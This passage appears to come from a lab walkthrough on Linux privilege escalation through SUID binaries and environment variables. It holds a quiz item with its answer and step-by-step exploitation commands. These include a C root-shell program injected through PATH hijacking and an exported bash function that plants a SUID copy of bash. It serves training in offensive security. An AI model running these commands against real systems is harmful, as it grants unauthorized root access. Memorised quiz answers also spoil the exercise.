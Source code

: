 **Exploitation**

**Linux VM**

1. In command prompt type: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c`
2. In command prompt type: `gcc /tmp/service.c -o /tmp/service`
3. In command prompt type: `export PATH=/tmp:$PATH`
4. In command prompt type: `/usr/local/bin/suid-env`
5. In command prompt type: `id`

---

```
TCM@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
TCM@debian:~$
```

1. What is the last line of the "strings /usr/local/bin/suid-env" output?

`service apache2 start`

## Privilege Escalation - SUID (Environment Variables #2)

**Detection**

**Linux VM**

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env2`
4. From the output, notice the functions used by the binary.

**Exploitation Method #1**

**Linux VM**

1. In command prompt type: `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
2. In command prompt type: `export -f /usr/sbin/service`
3. In command prompt type: `/usr/local/bin/suid-env2`
